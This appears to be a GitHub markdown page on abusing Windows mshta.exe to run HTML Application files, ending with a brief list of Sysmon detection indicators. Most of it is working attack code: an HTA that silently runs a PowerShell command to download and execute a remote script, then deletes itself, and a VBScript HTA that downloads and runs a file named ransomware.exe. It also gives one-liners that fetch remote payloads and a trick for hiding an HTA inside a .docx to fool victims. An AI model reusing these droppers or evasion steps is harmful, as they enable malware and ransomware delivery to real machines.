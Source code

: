 

## MSHTA

 Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) 

>  An **HTML Application (HTA)** is a Microsoft Windows program whose source code consists of HTML, Dynamic HTML, and one or more scripting languages supported by Internet Explorer, such as **VBScript or JScript.** 
>
> -- Wikipedia



because it runs on windows and support VBScript and Jscript, it's very obvious that it could be used in a malicious way

**The following is the format of HTA file**

```html
<!DOCTYPE html>
<html>
<head>
<HTA:APPLICATION ID="CS"
APPLICATIONNAME="Downloader"
WINDOWSTATE="minimize"
MAXIMIZEBUTTON="no"
MINIMIZEBUTTON="no"
CAPTION="no"
SHOWINTASKBAR="no">


<script>
//We will use Wscript.shell in order to launch PowerShell
// new ActiveXObject is JScript
a = new ActiveXObject('Wscript.Shell');
//Our command to execute
cmd = "powershell  -ep Bypass -nop -noexit -c (IEX (New-Object Net.WebClient).DownloadString('http://[IP]/projects/exec.ps1'))";
//Run the command, 0 is needed so that no PowerShell window will appear
a.Run(cmd,0);

//We use this in order to get erase the HTA file after it has executed
b = new ActiveXObject("Scripting.FileSystemObject");
//Get filename and edit it so that windows can read it properly
filename = window.location.href;
filename = decodeURI(filename);
filename = filename.slice(8);
//Get a handle on the file
c = b.GetFile(filename);
//Delete it
c.Delete();
//Close the MSHTA window
window.close();
</script>
</head>
<body>
</body>
</html>
```

the above HTA file uses ActiveX Microsoft extension to JavaScript to run cmd command which will run PowerShell and download another PowerShell script

the following tag is what defines that the following is HTA application so it could be parsed with mshta.exe as HTA file and execute the buried Jscript code in it



```html
<HTA:APPLICATION ID="CS"
APPLICATIONNAME="Downloader"
WINDOWSTATE="minimize"
MAXIMIZEBUTTON="no"
MINIMIZEBUTTON="no"
CAPTION="no"
SHOWINTASKBAR="no">
```

mshta.exe always looking for this tag to identify the file as HTA



to run the HTA file, *run mshta.exe from cmd not PowerShell*

```powershell
mshta.exe http://webserver/payload.hta
```

```powershell
mshta.exe [Full Path to the File]
```




mshta.exe could also run VBScript code as one-liner

```vbscript
mshta.exe vbscript:Close(MsgBox("Karem"))
```

```vbscript
mshta.exe vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))
```

****

you also can Just VBScript
```vbscript
<!DOCTYPE html>
<html>
<head>
<HTA:APPLICATION ID="CS"
APPLICATIONNAME="Downloader"
WINDOWSTATE="minimize"
MAXIMIZEBUTTON="no"
MINIMIZEBUTTON="no"
CAPTION="no"
SHOWINTASKBAR="no">


<script type="text/vbscript" LANGUAGE="VBScript" >
Set wshShell = CreateObject( "WScript.Shell" )
strUserName = wshShell.ExpandEnvironmentStrings( "%USERNAME%" )
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://[IP]/ransinvoke.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\"& strUserName &"\AppData\Local\Temp\ransomware.exe", 2 '//overwrite
end with
Set objShell = Wscript.CreateObject("Wscript.Shell")
objShell.run("C:\Users\"& strUserName &"\AppData\Local\Temp\ransomware.exe")

</script>
</head>
<body>
</body>
</html>
```

some times when you run the above code you get an error saying that Wscript is not defined, this is happen because of this line

```vbscript
 Set objShell = Wscript.CreateObject("Wscript.Shell")
```


 so just remove the Wscript and make it

```vbscript
Set objShell = Wscript.CreateObject("Wscript.Shell")
```
and it will run with no issue
this problem always happens to me when I run VBScript from other file, bu it works fine it the file is just VBScript and I run it through Wscrip.exe

****



**HTA file execution Tricks**

We can append the HTA file at the end of any other (not image) file

```powershell
copy /b doc.docx+file.hta newdoc.docx
mshta.exe [full path to newdoc.docx]
```

mshta.exe will not care about the extension of the supplied file as long as it's not image extension (ex: jpg, jpeg,png,..), it will just search for the tag that defines the HTA file



Notes

- if you append the data to docx file then run it using mshta.exe, it will work but once the victim opens it using word, word will identify that there is a problem but will open the file eventually after trimming the HTA code, and when user tires to close the file, word will tell hom to save the new doc which has no HTA, if the user saved the new file and removed the one that word told him that it's corrupted, then our HTA code is gone
- if you append HTA to image file and try to open it using mshta, it will open the image in a windows and will not run the JScript inside the HTA

 

### Detection

- sysmon

  - process create

    - mshta.exe process create with command line identify the file that will run the HTA
    - cmd process create with mshta.exe as parent process
    - PowerShell process that has cmd.exe as parent process 

    
    
    ![Mermaid](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/MSHTA/Misc/Mermaid.jpg)
    
    

### Reference 

[Link 1]: http://blog.sevagas.com/?Hacking-around-HTA-files	"Good Resource about MSHTA"

